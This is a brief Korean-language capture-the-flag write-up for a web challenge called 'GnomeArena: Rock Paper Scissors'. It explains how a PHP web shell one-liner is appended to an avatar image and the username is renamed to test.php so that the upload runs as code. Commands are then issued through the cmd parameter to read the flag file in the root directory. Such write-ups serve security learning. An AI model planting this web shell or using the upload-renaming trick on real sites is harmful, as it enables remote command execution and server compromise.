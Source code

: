 # GnomeArena: Rock Paper Scissors

![Alt text](001.png)

가위 바위 보 게임이 있다.

script 부분을 봣지만 여러번 승리한다고 바뀌는건 없는거 같다.

settings 부분에는 이름을 바꾸는 기능과 프로필 사진을 바꾸는 기능이 존재한다.

그림파일만 올라가게 되어있다.

그림파일 뒤에 <?php system($_GET['cmd']); ?>를 붙여서 명령어를 실행할 수 있게만들어 업로드한다.

그림파일 이름은 현재 나의 이름으로 avatars 폴더 밑에 업로드 된다. 때문에 이름을 test.php로 변경한뒤 그림파일을 업로드한다.

test.php로 이동하여 cmd 인자를 입력해준다. 현재 디렉토리에는 flag 같은 것이 안보인다. / 디렉토리를 살펴보니 flag 파일이 보인다.

cat 명령으로 flag 파일을 읽는다. 
